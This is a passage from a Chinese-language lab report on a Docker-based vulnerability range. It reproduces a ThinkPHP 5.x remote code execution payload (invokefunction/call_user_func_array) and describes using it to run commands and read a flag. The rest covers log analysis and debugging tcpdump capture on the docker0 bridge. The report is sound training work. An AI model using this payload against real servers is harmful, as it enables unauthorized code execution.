   * **针对 `vulfocus/thinkphp-cve_2018_1002015:latest`** (ThinkPHP 5.x RCE 漏洞，类似 CVE-2018-20062):
     * 通过分析靶标名称和 CVE 编号的暗示，推断其与 ThinkPHP 5.x 的远程代码执行漏洞相关。
     * 学习并掌握了利用 ThinkPHP 框架对控制器名称解析缺陷的 RCE Payload 构造方法，特别是 `s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=<function_name>&vars[1][]=<argument>` 的形式。
     * 成功执行了 `phpinfo()` (验证漏洞存在性) 和 `id` (获取当前用户权限，确认为 root)，并最终通过 `find / -name '*flag*'` 命令定位到 flag 文件 `/tmp/flag-{bmh8b59ed0c-3042-499e-9a2d-ef93c0e1ec87}`，再通过 `cat` 命令读取了 flag 内容。
     * 掌握了对 URL中特殊字符（如 `[`、`]`、`{`、`}`）进行百分号编码以确保 `curl` 命令正确执行的重要性。
3. **威胁检测与日志分析能力提升**：

   * **靶标一 (Nginx + PHP)**:
     * 通过 `docker exec` 进入容器内部，成功定位并分析了 Nginx 的访问日志 (`/var/log/nginx/access.log`)，从中筛选出包含恶意 `cmd` 参数的攻击请求记录。
     * 解决了在 Kali 主机（同时作为 Docker 宿主机）上使用 `tcpdump` 捕获针对本机 Docker 容器流量时遇到的 `0 packets captured` 问题。通过逐步排查，最终确定需要监听 Docker 的网桥接口 (`docker0`) 并使用容器的内部 IP (`172.17.0.2`) 和实际服务端口 (`80`) 作为过滤条件，成功捕获并使用 Wireshark 分析了攻击流量，清晰观察到了 TCP 握手、恶意 HTTP GET 请求及服务器响应。
   * **靶标二 (ThinkPHP)**:
     * 在容器内，通过尝试常见的 Web 服务器日志路径失败后，根据 ThinkPHP 的特性，在 `/app/runtime/log/` 目录下找到了按日期组织的框架应用日志 (如 `/app/runtime/log/202505/24.log`)。分析了这些日志，识别了包含 RCE Payload 的请求记录，并注意到了伴随的 `variable type error: boolean` 错误（虽然不影响漏洞利用）。
     * 同样应用了正确的 `tcpdump` 配置（监听 `docker0`，目标为容器内部 IP `172.17.0.2` 和端口 `80`），捕获并使用 Wireshark 分析了针对 ThinkPHP 靶标的攻击流量，再次验证了攻击步骤和数据回传。
4. **问题解决与经验积累**：

   * 实验中最显著的挑战是 `tcpdump` 的配置。通过系统性的排查（从 `any` 接口到物理接口 `eth1`，再到回环接口 `lo`，最终到 Docker 网桥 `docker0`），加深了对 Docker 网络模式和本地流量捕获复杂性的理解。
   * 遇到了 `curl` 因 URL 中包含未编码的特殊字符（如 `[]`）而报错的问题，通过学习和应用 URL 百分号编码成功解决。
   * 在进入 Docker 容器时，当 `/bin/bash` 不存在时，学会了尝试使用 `/bin/sh`。

**总结与反思**：
本次实验不仅系统性地实践了从环境准备、信息收集、漏洞利用到威胁检测的全过程，而且在解决实际操作中遇到的问题（如 `tcpdump` 配置、`curl` 特殊字符处理、容器内 shell 环境差异）方面获得了宝贵的经验。通过对不同类型 Web 应用（简单 PHP 应用和基于框架的 ThinkPHP 应用）的攻击，对各自的漏洞特点和日志记录方式有了更深入的认识。这些技能和经验对于未来进行更复杂的渗透测试、安全审计以及构建更有效的防御策略都具有重要意义。

# 五、遇到的问题和解决方案

配置和使用 `tcpdump` 进行网络流量捕获时，`tcpdump` 无法捕获到预期的数据包 (显示 `0 packets captured`)。以下是排查和解决问题的步骤：

1. **初步尝试与问题**:

   * 最初尝试使用 `sudo tcpdump -i any -A 'host 10.37.133.3 and port 8630' -w nginx_php_flag_traffic.pcap` 命令。参数 `-i any` 意图监听所有接口。
   * **结果**: `0 packets captured`。同时出现警告 `any: That device doesn't support promiscuous mode`。
     
2. **指定物理/虚拟网络接口 (`eth1`)**:

   * 通过 `ip addr` 命令查看网络接口，发现 Kali 虚拟机的 IP `10.37.133.3` 配置在 `eth1` 接口上。
   * 修改命令为 `sudo tcpdump -i eth1 -A 'host 10.37.133.3 and port 8630' -w nginx_php_flag_traffic.pcap`。
   * **结果**: 仍然是 `0 packets captured`。
   * **分析**: 由于靶机服务 (`10.37.133.3:8630`) 和攻击命令 (`curl`) 均在同一台 Kali 主机上执行，流量可能主要在本地回环或 Docker 内部网络中，并未经过 `eth1` 接口进行外部路由。
     
3. **尝试回环接口 (`lo`)**:

   * 考虑到流量可能在本地主机内部，尝试监听回环接口：`sudo tcpdump -i lo -A 'port 8630' -w nginx_php_flag_traffic.pcap`。
   * **结果**: 依然是 `0 packets captured`。
   * **分析**: 这表明流量甚至没有完全通过标准的回环接口，或者过滤条件不准确。更深层的原因在于 Docker 的网络机制。

   
4. **深入 Docker 网络层面进行排查与解决**:

   * **理解 Docker 网络**: 当 Docker 容器通过端口映射 (如 `-p 8630:80`) 暴露服务时，宿主机 (Kali) 上的请求 (`http://10.37.133.3:8630`) 会被 Docker 进程截获，并通过其内部的虚拟网桥 (通常是 `docker0`) 路由到容器的内部 IP 和实际端口 (如 `172.17.0.2:80`)。
   * **获取容器内部 IP**: 使用 `docker ps` 获取目标容器的 ID (`c93755678f6c`)。然后使用 `docker inspect c93755678f6c` 查看其详细网络配置。
     ```json
     // docker inspect c93755678f6c 输出的关键部分
     "NetworkSettings": {
         // ...
         "IPAddress": "172.17.0.2", // 容器在 bridge 网络上的 IP
         "Networks": {
             "bridge": {
                 "IPAddress": "172.17.0.2",
                 "Gateway": "172.17.0.1",
                 // ...
             }
         }
     }
     ```
   * **确定监听接口和过滤条件**:
     * 容器 IP 为 `172.17.0.2`。
     * 容器内部服务端口为 `80`。
     * 宿主机上对应的 Docker 网桥接口为 `docker0` (其 IP 通常是容器网络的网关，如 `172.17.0.1`)。
   * **最终正确的 `tcpdump` 命令**:
     ```bash
     sudo tcpdump -i docker0 -A 'host 172.17.0.2 and port 80' -w nginx_php_flag_traffic.pcap
     ```
   * **结果**: 成功捕获到10个数据包。
   * **结论**: 对于此类宿主机与本机 Docker 容器间的通信，需要监听 Docker 的虚拟网桥接口 (`docker0`)，并使用容器的内部 IP 和实际服务端口作为过滤条件。

  
